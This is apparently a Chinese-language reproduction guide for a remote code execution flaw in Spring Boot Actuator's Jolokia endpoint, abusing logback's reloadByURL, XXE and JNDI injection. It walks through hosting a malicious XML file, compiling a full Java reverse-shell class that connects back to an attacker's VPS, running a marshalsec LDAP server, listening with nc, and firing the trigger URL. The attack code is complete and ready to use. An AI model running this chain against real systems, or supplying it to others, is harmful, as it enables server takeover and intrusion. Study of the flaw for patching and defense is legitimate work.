



Spring Boot Actuator jolokia 配置不当导致的rce漏洞
==================================================

一、漏洞简介
------------

### 利用条件：

-   目标网站存在 /jolokia 或 /actuator/jolokia 接口

-   目标使用了 jolokia-core 依赖（版本要求暂未知）并且环境中存在相关
    MBean

-   目标可以请求攻击者的 HTTP 服务器（请求可出外网）

-   ldap 注入可能会受目标 JDK 版本影响，jdk \< 6u201/7u191/8u182/11.0.1

二、漏洞影响
------------

三、复现过程
------------

### 漏洞原理

-   直接访问可触发漏洞的 URL，相当于通过 jolokia 调用
    ch.qos.logback.classic.jmx.JMXConfigurator 类的 reloadByURL 方法
-   目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
-   目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
-   xml 文件中利用 logback 依赖的 insertFormJNDI 标签，设置了外部 JNDI
    服务器地址
-   目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

### 漏洞复现

### 步骤一：查看已存在的 MBeans

访问 **/jolokia/list** 接口，查看是否存在
**ch.qos.logback.classic.jmx.JMXConfigurator** 和 **reloadByURL**
关键词。

### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP
服务端口（80、443）

    使用 python 快速开启 http server

    python2 -m SimpleHTTPServer 80
    python3 -m http.server 80

在根目录放置以 xml 结尾的 ian.xml 文件，内容如下：

    <configuration>
      <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
    </configuration>

### 步骤三：准备要执行的 Java 代码

使用兼容低版本 jdk 的方式编译：

    javac -source 1.5 -target 1.5 JNDIObject.java

然后将生成的 **JNDIObject.class** 文件拷贝到刚刚用py开启的网站根目录。

    JNDIObject.java //请自行修改代码中反弹shell的ip和端口
    /**
     *  javac -source 1.5 -target 1.5 JNDIObject.java
     *
     *  Build By LandGrey
     * */

    import java.io.File;
    import java.io.InputStream;
    import java.io.OutputStream;
    import java.net.Socket;

    public class JNDIObject {
        static {
            try{
                String ip = "your-vps-ip";
                String port = "443";
                String py_path = null;
                String[] cmd;
                if (!System.getProperty("os.name").toLowerCase().contains("windows")) {
                    String[] py_envs = new String[]{"/bin/python", "/bin/python3", "/usr/bin/python", "/usr/bin/python3", "/usr/local/bin/python", "/usr/local/bin/python3"};
                    for(int i = 0; i < py_envs.length; ++i) {
                        String py = py_envs[i];
                        if ((new File(py)).exists()) {
                            py_path = py;
                            break;
                        }
                    }
                    if (py_path != null) {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/bash\")"};
                        } else {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/sh\")"};
                        }
                    } else {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{"/bin/bash"};
                        } else {
                            cmd = new String[]{"/bin/sh"};
                        }
                    }
                } else {
                    cmd = new String[]{"cmd.exe"};
                }
                Process p = (new ProcessBuilder(cmd)).redirectErrorStream(true).start();
                Socket s = new Socket(ip, Integer.parseInt(port));
                InputStream pi = p.getInputStream();
                InputStream pe = p.getErrorStream();
                InputStream si = s.getInputStream();
                OutputStream po = p.getOutputStream();
                OutputStream so = s.getOutputStream();
                while(!s.isClosed()) {
                    while(pi.available() > 0) {
                        so.write(pi.read());
                    }
                    while(pe.available() > 0) {
                        so.write(pe.read());
                    }
                    while(si.available() > 0) {
                        po.write(si.read());
                    }
                    so.flush();
                    po.flush();
                    Thread.sleep(50L);
                    try {
                        p.exitValue();
                        break;
                    } catch (Exception e) {
                    }
                }
                p.destroy();
                s.close();
            }catch (Throwable e){
                e.printStackTrace();
            }
        }
    }

### 步骤四：架设恶意 ldap 服务

下载 **marshalsec** ，使用下面命令架设对应的 **ldap** 服务：

    https://github.com/ianxtianxt/marshalsec

***ps:我这里发的是源码，需要用mvn编译marshalsec***

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389

### 步骤五：监听反弹 shell 的端口

    nc -lvvp 你上一步代码里设置的端口

### 步骤六：从外部 URL 地址加载日志配置文件

    如果目标成功请求了ian.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

    https://www.0-sec.org/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/ian.xml

**服务器请求日志**
